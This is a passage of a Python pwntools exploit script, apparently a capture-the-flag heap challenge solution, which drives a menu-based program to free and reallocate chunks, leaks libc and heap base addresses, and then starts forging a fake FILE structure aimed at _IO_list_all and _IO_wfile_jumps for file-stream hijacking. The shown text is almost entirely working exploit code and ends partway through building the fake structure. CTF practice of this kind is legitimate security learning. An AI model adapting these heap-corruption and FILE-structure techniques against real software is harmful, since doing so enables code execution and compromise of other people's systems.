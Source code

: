 ```python
def Read(i, data):
    sla(b"enter your command: \n", b"3")
    sla(b"Index: ", str(i).encode())
    sa(b"Message: \n", flat(data, length = 0x110 * key))
  
def Write(i):
    sla(b"enter your command: \n", b"4")
    sla(b"Index: ", str(i).encode())
    ru(b"Message: \n")
    m = rc(0x10)
    d1 = u64(m[:8])
    d2 = u64(m[8:])
    log.info(f"d1: {d1:#x}")
    log.info(f"d2: {d2:#x}")
    return d1, d2

def Bye():
    sla(b'enter your command: \n', b'9')

sla(b'enter your key >>\n', str(key).encode())

Add(medium)
Add(medium)
Add(small)

Del(2)
Del(1)
Del(0)

Add(small)
Add(small)
Add(small)
Add(small)

Del(3)
Del(5)
m1, m2 = Write(3)
libc.address = m1 - 0x1f2cc0
heap_base = m2 - 0x17f0

Del(4)
Del(6)

Add(large)
Add(small)
Add(small)

Del(8)
Add(large)

target_addr = libc.sym._IO_list_all
_IO_wfile_jumps = libc.sym._IO_wfile_jumps

_lock = libc.address + 0x1f5720
fake_IO_FILE = heap_base + 0x1810

f1 = FileStructure()
f1.flags = u64(b"  fa1c4".ljust(8, b"\x00"))
f1._IO_read_ptr = 0xa81
f1._lock = _lock
f1._wide_data = fake_IO_FILE + 0xe0
f1.vtable = _IO_wfile_jumps

```